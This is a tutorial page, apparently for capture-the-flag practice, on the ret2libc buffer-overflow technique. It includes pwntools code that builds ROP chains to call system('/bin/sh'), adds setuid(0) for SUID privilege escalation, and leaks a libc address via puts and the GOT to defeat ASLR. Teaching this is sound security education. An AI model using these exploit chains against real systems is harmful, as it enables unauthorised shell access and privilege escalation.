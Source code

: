 ```yaml
---
description: Using a buffer overflow to call the libc system("/bin/sh") function
---
```


# ret2libc

## Theory

The idea of ret2libc is returning to a function defined in the libc library. A common one is the `system()` function allowing you to execute shell commands and with the `"/bin/sh"` argument an interactive system shell. Just like calling a function with arguments as in [ret2win.md](ret2win.md "mention"), we jump to this `system()` function with a string argument found in the same libc binary.&#x20;

This technique is really useful when there is no `win()` function to jump to, as this `system()` function is essentially the same as a win function, but not specific to any binary.&#x20;

## Exploit

To call a function with a string argument, we need two things. The address of the function, and the address to the string that will be the argument.&#x20;

If ASLR is disabled, this first part is simple. We just need the address of the `system()` function which can be found if we have a copy of the libc binary the remote server uses. It may be given in the challenge, or it may not. If it is not given, you can try to find it by leaking addresses as explained later in [#bypassing-aslr](ret2libc.md#bypassing-aslr "mention") and looking them up in the [libc database](https://libc.blukat.me/) to find any matches.&#x20;

Then we need the string, which can be easily found using PwnTools. Every libc version has a "/bin/sh" string inside by default, which we can abuse. The code will look something like this:

```renpy
libc = ELF("./libc.so.6")

rop = ROP(libc)
#rop.call(rop.ret)  # Might be needed to align the stack (try with/without)
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    OFFSET: rop.chain()
})
```

After sending the payload, you can get a nice interactive shell with the `p.interactive()` function:

```renpy
p.sendline(payload)  # Trigger shell

p.interactive()  # Make shell interactive in terminal
```

{% hint style="warning" %}
In case you are exploiting a [suid.md](../linux/linux-privilege-escalation/suid.md "mention") binary, this shell will likely not escalate your privileges yet. To do this, you first have to call `setuid(0)` to use your given permissions. In the ROP chain, you can simply include this call:

<pre class="language-renpy"><code class="lang-renpy">...
<strong>rop.setuid(0)  # Set to the UID of the owner of the SUID binary
</strong>rop.system(...
</code></pre>
{% endhint %}

## Is ASLR enabled?

Most often Address Space Layout Randomization (ASLR) is enabled on the remote machine (and likely yours too). You can check if it is by reading the `/proc/sys/kernel/randomize_va_space` file:

* `0`: Disables ASLR. In this mode, the kernel does not randomize the location of the stack, shared libraries, or executable code.
* `1`: Enables ASLR for user-space applications only. The kernel randomizes the location of the **stack**, shared **libraries**, and **executable code** for user-space applications.
* `2`: Enables ASLR for all processes, including the kernel itself. In addition to randomizing the location of user-space applications, the kernel also randomizes the location of the kernel stack, heap, and other kernel components.

Only `root` should be able to write to this file and change the setting. When enabled, it makes many loaded addresses randomized on each binary run, making it impossible to guess beforehand what they will be.

If you don't have access to the machine to read this file, another way to check is just to test if you can jump somewhere you know. For example, **simply jumping to the start of `main()`** to see if the program restarts on the remote instance. If it successfully repeats the main function, ASLR is likely off which will make any exploit much simpler. If it crashes, or just closes the connection, it likely jumped to an invalid address and segfaulted.&#x20;

## Bypassing ASLR

Simply jumping to the `system()` function won't work here, because we need to know what randomized address to jump to. But to make it work again, we simply need to leak any libc address, because all the addresses will still be the same **relative** to each other. Leaking such an address can be done in a few different ways, but one common method is using the Procedure Linkage Table (PLT) and the Global Offset Table (GOT).&#x20;

We want to somehow leak the address of any libc function, which can be done by **printing** the value. If the original binary uses any `puts()`, `printf()` or similar functions, those functions will be saved in the PLT. The address to this table is not randomized by ASLR, so we can use it to print the value at any address we want. The GOT just happens to store the randomized addresses to used libc functions, which can be printed using this method. The code looks something like this:

```renpy
elf = ELF("./binary")

rop = ROP(elf)
rop.puts(elf.got["puts"])
```

This would print some binary data being the leaked address to the libc `puts()` function, but then it likely crashes the program because we corrupted the flow. But since we control the return addresses, we can simply restart the program after we leaked the address, now with the knowledge of this leaked address!

<pre class="language-renpy"><code class="lang-renpy">rop = ROP(elf)
rop.puts(elf.got["puts"])
<strong>rop.main()
</strong>
payload = flat({
    OFFSET: rop.chain()
})
</code></pre>

After sending this payload, the first bytes you will receive are the address we are looking for. After that, the program restarts and we can do the buffer overflow again but now having bypassed ASLR by leaking a libc address. We can extract the address from the printed binary data like so:

```renpy
p.sendline(payload)

# Note: Try some different things here locally for your program to find a consistent 
#       way to extract the address. Here the first 6 bytes are taken
r = p.recv(6)
leak = u64(r.ljust(8, b"\x00"))  # Unpack data
success("Leaked puts(): %#x", leak)
```

Finally, now that we have leaked the address we can calculate the relative offset with where the `puts()` function would normally be in libc:

```renpy
libc = ELF("./libc.so.6")

libc.address = leak - libc.symbols["puts"]
```

The above line of code will set the base address of libc making any future calls like `rop.system()` work automatically.&#x20;

As the program restarts, now it becomes the same as in [#exploit](ret2libc.md#exploit "mention"). We just need to call the `system()` function with the `"/bin/sh"` string:

```renpy
rop = ROP(libc)
rop.call(rop.ret)  # Align the stack for 64-bit
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    OFFSET: rop.chain()
})
p.sendline(payload)
p.interactive()
```

{% hint style="info" %}
Notice the `rop.call(rop.ret)` instruction, which is needed to call the `system()` function after corrupting the stack as we did. The reason for this is that a `movaps` instruction requires the stack pointer (`rsp`) to be **16-bit aligned**, which is normally guaranteed by the compiler. \
In our exploit, we return directly to the function, `pop`'ing one value from the stack, bringing its last hex digit from `0` (aligned) to `8` (misaligned). By adding one more `ret` instruction before, we **pop another** return pointer from the stack, aligning it back to `0` and allowing the `system()` call to work as expected.&#x20;
{% endhint %}

Putting it all together results in an example script like the following:

{% file src="../.gitbook/assets/ret2libc.py" %}
An example script of ret2libc bypassing ASLR by leaking puts()
{% endfile %}

